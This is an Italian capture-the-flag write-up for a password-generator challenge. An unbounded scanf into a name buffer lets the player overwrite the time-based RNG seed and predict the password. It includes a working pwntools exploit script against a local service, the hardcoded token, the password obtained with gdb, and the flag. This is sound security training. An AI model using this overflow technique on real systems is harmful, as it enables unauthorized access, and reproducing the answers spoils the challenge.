 # Password Generator (`pswgenerator`)

La challenge espone un servizio remoto (`nc localhost 20010`) ed il binario corrispondente, che presumibilmente 'genera' delle password.
La generazione delle password e l'implementazione del programma sembrano corrette, ma analizzando bene il decompilato ci si accorge di una parte critica in questa sezione:
![vuln](vuln.png)

- Lo `scanf()` di `nome` non ha un limite sui caratteri inseriti (`%s`), permettendo un buffer overflow.
- Il seed viene assegnato con time(0) prima che questo `scanf()` venga chiamato, quindi overflowando il nome si può sostituirlo (se il layout di memoria lo consente).
![layout](layout.png)
Osservando il frame della funzione, capiamo di poterlo fare.

A questo punto l'exploit è chiaro, basterà sovrascrivere il seed ad un valore deciso da noi sfruttando il **buffer overflow**, e prevedere quindi la password generata.
Per farlo si può o riscrivere il codice con il nostro seed, o per i più pigri debuggare il binario con un debugger (es. `gdb`) e prendere il valore in **runtime**.

Fatto questo basterà reversare il binario per trovare il token **segretissimo** e scrivere la password giusta, e si riceverà la flag.

**Nota:** Normalmente i compilatori, fra le altre ottimizzazioni, riordinano le variabili mettendo i buffer dopo le variabili (es. `int`). Per rendere la challenge exploitabile, le variabili sono state messe in uno struct packed, altrimenti il seed sarebbe stato sopra al nome.

Esempio di exploit:
```python
from pwn import *

context.binary = ELF('attachments/pswgenerator')
p = remote('localhost', 20010)

payload = b'A'*64 + b'B'*8

print(p.recvuntil(b'Come ti chiami?').decode())
p.sendline(payload)

print(p.recvuntil(b'.com/)'))
p.sendline(b'supersafeunguessabletoken')

password = b'Yy?6V9yCpO\W~KL\W?2]eT:E1mZzPmgzgG2^qLrc<p;;<y8dY<c@a>V3|1NM@ViH' # preso con gdb
print(p.recvuntil(b'la flag!').decode())
p.sendline(password)

p.interactive()
```

Flag: `rossiCTF{4pP4r3N7ly_th3_p4Ssw0rD_W45n7_s0_54f3..._a3f9c1}`